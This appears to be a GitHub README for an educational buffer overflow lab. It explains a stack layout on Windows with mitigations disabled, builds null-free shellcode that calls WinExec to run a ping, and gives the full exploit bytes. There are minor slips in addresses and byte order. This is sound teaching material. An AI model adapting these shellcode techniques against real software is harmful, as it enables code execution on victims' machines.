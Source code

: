 ## Table of Contents
- [Overview](#overview)
- [Basic Exploit Structure](#basic-exploit-structure)
- [Crafting the Exploit - Loading the Command String into Memory](#crafting-the-exploit---loading-the-command-string-into-memory)
- [Crafting the Exploit - Calling WinExec](#crafting-the-exploit---calling-winexec)
- [Crafting the Exploit - Final Touches](#crafting-the-exploit---final-touches)


## Overview
This project demonstrates a simple buffer overflow attack. The vulnerable program reads a string from the user and then prints it back. However, the function used for reading user input, ```gets()```, does not verify whether the buffer is large enough for a given input, making it vulnerable to buffer overflow. This attack works on Windows with ASLR, stack canaries and non-executable stack disabled. The project includes three files:
- ```vulnerable.c``` is the target of the attack
- ```exploit.bin``` is the input we will give to the vulnerable program to execute our code (our goal will be to open a new terminal window and ping google)
- ```getAddr.c``` is a helper program that will print the address of the function ```WinExec``` (its usefulnes will be apparent later)

The following is a detailed description of how the exploit was developed. I used OllyDbg throughout this project.

## Basic Exploit Structure
Having identified a vulnerable input in our program, we need to first analyze what the stack looks like before we enter our input. This is a diagram of the stack layout after the prolog of ```main```
```
address   value  
0019FEF0  0019FF08 - the start of the input buffer   <= ESP

...

0019FF2C  0019FF74 - saved EBP                       <= EBP  
0019FF30  00401279 - return address  
0019FF34  00000001 - argc 
0019FF38  005DCA48 - argv
```
```ESP``` is pointing to the start of the buffer (```0x0019FEF0```) and ```EBP``` is pointing to the ```saved EBP``` (```0x0019FF74```). It is worth noting that ```ESP``` will be pointing to ```argc``` (```0x0019FF34```) after returning from ```main```.

The rough idea of our exploit is to write the code into the buffer and then overwrite the ```return address``` with the address of our code. This will cause the ```ret``` instruction at the end of the function to execute our code. The buffer has 60B and we also need to overwrite the ```saved EBP``` to get to the ```return address```, so our exploit needs to be 68B long. The first 64B can be shellcode and the last 4 bytes need to be the address, where we want to redirect execution. We have to add padding if our shellcode is not long enough to exactly match this length. Overall, the exploit needs to have the following format
```
|  shellcode & padding   |  shellcode address
|          64B           |       4B
```
We should note now that our input cannot include arbitrary bytes.  CPP reference ([https://en.cppreference.com/w/c/io/gets](url)) states that ```gets``` loads input until it reaches either ```0x0A``` ('\n') or ```0x1A``` (EOF). Our exploit therefore cannot contain these bytes. Another limitation arises from our input method - we would not be able to enter ```0x08``` (backspace) and ```0x00``` if we were to write the exploit directly into the console. However, this can be overcome by writing the exploit into a binary file and then sending it into the input of the vulnerable program.

## Crafting the Exploit - Loading the Command String into Memory 

Let us now consider what the shellcode will actually look like. Our goal is to open a new terminal window and run ```ping 8.8.8.8```. This can be done by calling ```WinExec``` with ```cmd /k start cmd /k ping 8.8.8.8``` as its first argument. The second argument to ```WinExec``` will be 1 (``SW_NORMAL``). The first thing we need to do is to store the first argument as a null terminated string in memory. This can be done easily by making it the first part of our shellcode. The string itself looks like this
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38
```
Now we need to add a null byte to the end. We could just write it there in our exploit file, but that would make the exploit unusable if we were to type it directly into a console. A more universal solution is to add four bytes of padding to the end of the string and then overwrite that padding with null bytes in our code. The beginning of our exploit will therefore be 
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38
61 61 61 61
| padding |
```
This is what the stack will look like once our exploit has been loaded into memory
```
address   value
0019FEF0  636D6420 - the beginning of our buffer   <= ESP
0019FEF4  2F6B2073
0019FEF8  74617274
0019FEFC  20636D64
0019FF00  202F6B20
0019FF04  70696E67
0019FF08  20382E38
0019FF0C  2E382E38
0019FF10  61616161 - padding

...

0019FF2C  0019FF74 - saved EBP                     <= EBP
0019FF30  00401279 - return address
0019FF34  00000001 - argc 
0019FF38  005DCA48 - argv
```

We can see that we need to write ```0x00000000``` to the address ```0x0019FF10``` and we need to do this without using an instruction that would itself contain a null byte. In particular, we cannot directly write the address we are trying to write to. Fortunately, we can calculate the address using ```ESP```. ```ESP``` will be pointing to ```argc``` (```0x0019FF34```) after the program returns from ```main``` and starts executing our code, meaning that the target address can be calculated as ```ESP - 0x24```. In summary, we can write the required null bytes using the following instructions

```
shellcode     assembly
33C0          XOR EAX, EAX                   - zero out eax
894424 DC     MOV DWORD PTR[ESP - 24], EAX   - write a zero to 0x0019FF14
```

## Crafting the Exploit - Calling WinExec

Let us now consider what the stack will look like right after returning from main.

```
address   value
0019FEF0  636D6420 - the beginning of our buffer
0019FEF4  2F6B2073
0019FEF8  74617274
0019FEFC  20636D64
0019FF00  202F6B20
0019FF04  70696E67
0019FF08  20382E38
0019FF0C  2E382E38
0019FF10  61616161 - padding
0019FF14  33C08944 - first instructions of our code     <= PC
...

0019FF2C  ........ - last instructions of our code                     
0019FF30  0019FF14 - overwritten return address
0019FF34  00000001 - argc                               <= ESP
0019FF38  005DCA48 - argv
```
The next step is to push the arguments of ```WinExec``` onto the stack. The first argument we need to push is 1 and the second is the address of the command string - ```0x0019FEF0```. We use the same technique as before to avoid having to type a null byte in our exploit to store this address in ```EBX```. However, we cannot push onto the stack yet. The diagram above shows that doing so would overwrite our own code. We will solve this by subtracting a sufficiently large number from ```ESP```, thus moving the top of the stack above our code. The exact number does not matter, it only needs to be large enough for the resulting ```ESP``` to point above the beginning of the buffer. Once this is done we proceed to push the arguments we wish to pass to ```WinExec``` onto the stack.

```
shellcode        assembly
8BDC             MOV EBX,ESP - copy ESP to EBX
83EB 44          SUB EBX,44  - now EBX points to the start of the buffer, which is the address of our command string
83EC 50          SUB ESP,50  - move the stack pointer above the buffer
6A 01            PUSH 1      - push the first argument
53               PUSH EBX    - push the second argument
```

Now we need to call ```WinExec```. This function is part of ```kernel.dll```. Addresses of library functions are randomized upon being loaded into memory, but ```kernel.dll``` is included in every process running on Windows. This means that its address is only randomly assigned when the operating system starts and remains the same until shutdown. This allows us to use ```getAddr.c``` to find the address beforehand and be sure that it will be the same once we execute the vulnerable program. However, the address will be different each time we reboot our computer, so this part of the exploit needs to be manually changed for it to work. I got the address ```0x75CF4890``` during my testing. Note that the byte order of the address needs to be reversed when writing it into the exploit. This leads us to the last two instructions of our exploit.

```
shellcode        assembly
B8 75CF4890      MOV EAX,KERNEL32.WinExec - load the address of WinExec into EAX
FFD0             CALL EAX                 - call the function
```

This is the entire code:
```
33C0             XOR EAX,EAX
894424 DC        MOV DWORD PTR SS:[ESP-24],EAX
8BDC             MOV EBX,ESP
83EB 44          SUB EBX,44
83EC 50          SUB ESP,50
6A 01            PUSH 1
53               PUSH EBX
B8 9048CF75      MOV EAX,KERNEL32.WinExec
FFD0             CALL EAX
```

## Crafting the Exploit - Final Touches

We get the following exploit after adding the code to our command string.
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38 
61 61 61 61 33 C0 89 44 24 DC 8B DC 83 EB 44 83 
EC 50 6A 01 53 B8 90 48 CF 75 FF D0
```
This code is 60B long so we need to add 4B of padding followed by the address of our code (```0x0019FF14```). We once again encounter the issue of having to write a null byte. However, the bytes we actually need to write into the buffer are ```14 FF 19 00```. Notice that the null byte is the very last byte of our exploit. Fortunately, ```gets``` stores its input as a null terminated string, so it will write this problematic byte for us. The complete shellcode therefore looks like this
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38 
61 61 61 61 33 C0 89 44 24 DC 8B DC 83 EB 44 83 
EC 50 6A 01 53 B8 90 48 CF 75 FF D0 61 61 61 61
14 FF 19          |          |      |         |
|      |         WinExec address      padding
address of our code (the null byte will be written by gets)
```

Remember that it is necessary to replace the ```WinExec``` address by the address printed by ```getAddr.c```. Finally, we run the exploit using ```vulnerable < exploit.bin```.
